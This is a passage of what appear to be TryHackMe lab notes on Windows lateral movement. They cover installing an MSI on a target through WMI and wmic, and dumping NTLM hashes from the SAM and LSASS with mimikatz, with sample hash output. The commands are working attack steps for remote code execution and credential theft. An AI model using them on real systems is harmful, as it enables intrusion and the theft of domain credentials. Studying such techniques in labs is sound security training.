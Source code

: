 To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

  
### Installing MSI packages through WMI

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```



## Other Authentication material
- Using any windows account without knowing the password
- Credentials can be extracted using `mimikatz`

### pass-the-hash (PtH)
- Extracting NTLM hashes from local SAM. Only for local user
```mimikatz
mimikatz # privilege::debug 
mimikatz # token::elevate 
mimikatz # lsadump::sam 
# RID : 000001f4 (500) 
# User : Administrator
#  Hash NTLM: 145e02c50333951f71d13c245d352b50
```
- Extracting NTLM hashes from LSASS memory: for local as well as domain user
```mimikatz

mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
# Authentication Id : 0 ; 308124 (00000000:0004b39c)
# Session           : RemoteInteractive from 2 
# User Name         : bob.jenkins
# Domain            : ZA
# Logon Server      : THMDC
# Logon Time        : 2022/04/22 09:55:02
# SID               : S-1-5-21-3330634377-1326264276-632209373-4605
#        msv :
#         [00000003] Primary
#         * Username : bob.jenkins
#         * Domain   : ZA
#         * NTLM     : 6b4a57f67805a663c818106dc0648484

```
